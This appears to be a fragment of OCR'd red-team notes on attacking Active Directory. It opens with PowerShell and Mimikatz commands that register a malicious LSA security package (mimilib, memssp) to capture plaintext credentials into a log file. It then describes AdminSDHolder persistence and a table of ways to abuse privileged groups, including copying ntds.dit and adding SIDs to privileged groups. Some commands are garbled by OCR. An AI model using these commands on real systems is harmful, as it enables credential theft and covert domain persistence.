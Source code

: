 $packages += "mimilib"

Set-ItemProperty

HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\OSConfig\ -Name 'Security Packages' -Value $packages

Set-ItemProperty HKLM:\SYSTEM\CurrentControlSet\Control\Lsa\ -Name 'Security Packages' Value $packages

Invoke-Mimikatz -Command '"misc::memssp"'

# CHECK C:\Windows\system32\kiwissp.log

### ADMINSDHOLDER

> Security Descriptor Propagator (SDPROP) runs every hour and compares the ACL of protected groups and members with the ACL of AdminSDHolder and any differences are overwritten on the object ACL
> 

| Protected Groups |  |
| --- | --- |
|  |  |
| Account Operators | Enterprise Admins |
| Backup Operators | Domain Controllers |
|  |  |
| Server Operators | Read-only Domain Controllers |
| Print Operators | Schema Admins |
| Domain Admins | Administrators |
|  |  |
| Replicator |  |
- Well known abuse

| Groups | Resume |
| --- | --- |
| Account
Operators | Cannot modify DA/EA/BA groups. Can modify nested group within |
| Backup
Operators | Backup GPO, edit to add SID of controlled account to a privileged group and Restore |
|  |  |
| Server Operators | Run a command as system (using the disabled Browser service) |
|  |  |
| Print Operators | Copy ntds.dit backup, load device drivers |
- Add FullControl permissions for a user to the AdminSDHolder using PowerView as DA
